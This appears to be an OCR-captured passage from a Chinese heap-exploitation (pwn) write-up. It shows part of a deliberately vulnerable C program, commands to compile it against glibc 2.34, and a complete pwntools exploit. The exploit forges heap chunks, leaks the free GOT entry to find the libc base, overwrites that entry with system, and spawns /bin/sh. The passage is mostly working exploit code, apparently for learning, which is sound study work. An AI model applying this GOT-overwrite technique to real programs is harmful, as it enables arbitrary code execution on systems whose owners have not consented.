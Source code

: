 ```
    p[5] = ccc;
    free(cc);
    b = p[3];
    scanf("%s",b);
    b = p[3];
    cc = p[4];
    printf("%s\n",b);
    scanf("%s",cc);
    ccc = p[5];
    scanf("%s",ccc);
    free(ccc);
} 
```

编译一下：

```
root@ubuntu:/home/PycharmProjectspy2/pwn# echo 2 >/proc/sys/kernel/randomize_va_space
pukrquq@ubuntu:/home/PycharmProjectspy2/pwn$ gcc -no-pie -o 2221 ./2.c
pukrquq@ubuntu:/home/PycharmProjectspy2/pwn$ patchelf --set-interpreter /home/pukrquq/Downloads/glibc-2.34/64/lib/ld-linux-x86-64.so.2 ./2221

```

exp：

```
from pwn import *
import pwn
import binascii
 
p = process("./2221")
print pidof(p)
e = ELF("./2221")
context.arch = 'amd64'
#libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc = ELF("/home/pukrquq/Downloads/glibc-2.34/64/lib/libc.so.6")
p_addr = p.recvline()
p_addr = int(p_addr, 16)
payload1 = pwn.p64(0)+pwn.p64(0x30)+pwn.p64(p_addr)+pwn.p64(p_addr+0x8)+'a'*0x10+pwn.p64(0x30)+pwn.p64(0x430)
p.sendline(payload1)
 
free_got = e.got['free']
free_libc = libc.symbols['free']
 
payload2 = 'a'*0x18+pwn.p64(free_got)+pwn.p64(free_got)
p.sendline(payload2)
real_addr = p.recvline(keepends=False)[::-1]
print real_addr
#real_addr = int(real_addr, 16)
real_addr = binascii.b2a_hex(real_addr)
real_addr = int(real_addr, 16)
print hex(real_addr)
libc_base = real_addr-free_libc
system_libc = libc.symbols['system']
system_addr = libc_base+libc.symbols['system']
#binsh = libc_base+libc.search("/bin/sh").next()
binsh = next(libc.search("/bin/sh".encode())) + libc_base
payload3 = pwn.p64(system_addr)
print hex(system_addr)
p.sendline(payload3)
payload4 = "/bin/sh"
#print hex(binsh)
p.sendline(payload4)
```
